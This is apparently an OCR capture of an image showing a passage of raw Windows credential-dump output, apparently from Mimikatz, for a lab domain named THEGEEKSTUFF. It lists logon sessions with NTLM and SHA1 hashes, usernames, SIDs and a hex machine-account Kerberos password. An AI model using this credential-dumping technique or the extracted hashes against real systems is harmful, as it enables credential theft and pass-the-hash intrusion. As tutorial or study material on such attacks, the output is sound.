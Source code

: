 ```
         * NTLM     : fc1fc80e9f128261a6bc463cb31e65b5
         * SHA1     : 9fb867ff5ae033514134f54b5bacfa209d135125
         [00010000] CredentialKeys
         * NTLM     : fc1fc80e9f128261a6bc463cb31e65b5
         * SHA1     : 9fb867ff5ae033514134f54b5bacfa209d135125
        tspkg :
        wdigest :
         * Username : Administrator
         * Domain   : THEGEEKSTUFF
         * Password : (null)
        kerberos :
         * Username : Administrator
         * Domain   : THEGEEKSTUFF.COM
         * Password : (null)
        ssp :   KO
        credman :

Authentication Id : 0 ; 66164 (00000000:00010274)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2016/11/5 12:07:53
SID               : S-1-5-90-1
        msv :
         [00000003] Primary
         * Username : SERVER$
         * Domain   : THEGEEKSTUFF
         * NTLM     : 708faf9c9842a10735ecab33cc64ed37
         * SHA1     : 170fc50c1613bc049225066bba08514ac35f1bce
        tspkg :
        wdigest :
         * Username : SERVER$
         * Domain   : THEGEEKSTUFF
         * Password : (null)
        kerberos :
         * Username : SERVER$
         * Domain   : thegeekstuff.com
         * Password : 0c f1 e2 be 81 2f 1e 4d a2 90 14 dc 84 1f c1 8c 41 0e e3 9b 7d 49 49 30 c8 63 b4 59 a9 d2 9e 08 e1
 aa 9c 40 dc 5b c8 17 42 7e a7 7f e4 f6 9f 1d 80 a7 ee 1c 00 7e 19 ce 5b 4a b4 53 f4 7f 45 8f 49 71 03 a6 55 12 0e c4 3f
 9d 87 a4 0d ca 5c bd 6d eb 6f 4e cb d7 3f 8c e9 39 07 26 65 fc c6 ac cb 81 31 7f 55 dd ac 8a 49 1d 16 a8 79 8b 2d 33 b7
 2d 42 f5 19 a5 17 32 56 88 c0 e2 08 50 62 0b c9 f2 e9 47 13 cb 72 20 d3 b2 b7 ba f3 54 c4 27 86 2c 71 b3 33 dc 9d 77 ff
 27 16 43 5c 8e fb fa ab 89 e0 f8 ae f1 b1 be 58 c0 e5 7b 76 a9 d4 80 37 18 6d 47 0d 7e 2b aa 0c cd b5 cb be 77 21 77 d1
 52 d8 ba 5a 0f 5d 0e 74 7c 97 05 00 27 a0 51 cb 3b 95 d5 a7 55 37 49 0d 84 7a f6 d8 96 30 d3 06 a8 cb a3 91 8e 98 ad b7
 8a 86 a9 c8 b8 ea c3
        ssp :   KO
        credman :

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : SERVER$
Domain            : THEGEEKSTUFF
Logon Server      : (null)
Logon Time        : 2016/11/5 12:07:53
SID               : S-1-5-20
        msv :
         [00000003] Primary
```